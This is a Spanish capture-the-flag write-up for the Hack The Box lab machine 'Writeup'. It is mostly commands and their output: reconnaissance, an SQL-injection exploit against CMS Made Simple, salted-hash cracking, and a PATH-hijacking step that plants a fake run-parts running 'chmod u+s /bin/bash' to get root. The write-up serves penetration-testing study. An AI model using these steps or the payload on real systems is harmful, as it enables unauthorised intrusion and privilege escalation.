 - Tags: #web_enumeration #linux #pathhijacking #process_enumeration #cracking_hash_salt

[!portada.png](/assets/images/WriteUp/portada.png)

# RECONOCIMIENTO
----------

- Verificación de `SO`

```bash
ping -c 1 10.10.10.138
```

- Escaneo de puertos abiertos dentro de la maquina

```bash
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.138 -oG allPorts
```

- Información mas detallada sobre los servicios que corren por detrás de los puertos abiertos

```bash
nmap -p80,22 -sCV 10.10.10.138 -oN targeted
```

- Script de reconocimiento básico sobre los directorios abiertos

```bash
nmap -p80 --script=http-enum 10.10.10.138 -oN webScan
```

- Información básica sobre la pagina web

```bash
whatweb http://writeup.htb/writeup/
```

---------
# EXPLOTACIÓN
-----------

- **Nos damos cuenta de que es un CMS Made Simple 2019**

![Pasted image 20240829225020.png](/assets/images/WriteUp/Pastedimage20240829225020.png)

- **Ejecutamos el exploit y lo que sacamos de el es lo siguiente:**

```bash
python2.7 46635.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

----------
# CRACKEO DE PASSWORDS
---------

**Como vemos encontramos dos hashes, uno es un hash `md5` normal y otro pone `salt` , por lo que sabemos que la password se ha hasheado con un `salt`, por lo que para descifrar dicho `hash` haremos lo siguiente:**

>Fichero hash.txt
```bash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

**Hemos puesto el hash al principio separado por `:` el salt**

>Comando de hashcat:


```bash
hashcat -m 20 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
```

- Resultado:

```bash
File: cracked.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

-------------
# SSH
-------

```bash
❯ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 29 13:25:30 2024 from 10.10.16.4
jkr@writeup:~$
```

**USER**

```bash
jkr@writeup:~$ cat user.txt 
a7e8af276747a411dc39b0206d00e219
jkr@writeup:~$
```

-----------
# ESCALADA DE PRIVILEGIOS
----------

- **Al ejecutar el comando `id` vemos lo siguiente:**

```bash
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

- **Como vemos hay un grupo `staff` que se sale de lo normal, por lo que vamos a ver que es lo que hace este grupo en especifico.**

>`STAFF`
- `Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.`

**Por lo que al ser del grupo `staff` podemos escribir en `usr/local/bin` & `usr/local/sbin`**

>Ambas rutas suelen estar en la variable de entorno $PATH del usuario root, lo que significa
>lo que significa que podríamos reemplazar un programa que root probablemente ejecute fuera de esos directorios con un archivo malicioso que contenga una carga útil que nos permita escalar nuestros privilegios que contenga una carga útil que nos permita escalar nuestros privilegios.

- **Para ver los procesos que esta ejecutando el usuario `root` en el sistema hacemos lo siguiente**

`Ejecutamos el script pspy`

```bash
jkr@writeup:/tmp/$ ./pspy32
```

----------
# PATH HIJACKING
----------

**Al ejecutar la herramienta vemos lo siguiente interesante:**

```bash
<...SNIP...>
2019/06/09 08:45:43 CMD: UID=0 PID=8528 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8529 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8530 | sshd: jkr [priv]
2019/06/09 08:45:43 CMD: UID=0 PID=8531 | sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --
lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/09 08:45:43 CMD: UID=0 PID=8532 | run-parts --lsbsysinit /etc/update-
motd.d
2019/06/09 08:45:43 CMD: UID=0 PID=8533 | /bin/sh /etc/update-motd.d/10-uname
<...SNIP...>
```

Como vemos se esta haciendo una llamada a la función `run-parts`, en el directorio `/bin` cada vez que un cliente nuevo se conecta por ssh. Por lo que podemos hacer es crear un script llamado `run-parts` que haga lo siguiente:

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

**Esto lo que hará es que como el sistema empezara buscando por el principio del `PATH` hasta encontrar el binario `run-parts`, nosotros ponemos nuestro binario malicioso al principio del `PATH` que tenemos permisos de escritura y esto en vez de hacer las funciones de `run-parts` nos proporcionara una `/bin/bash suid`**

- De ultimas ejecutar un `bash -p` y nos dará una shell `root`.
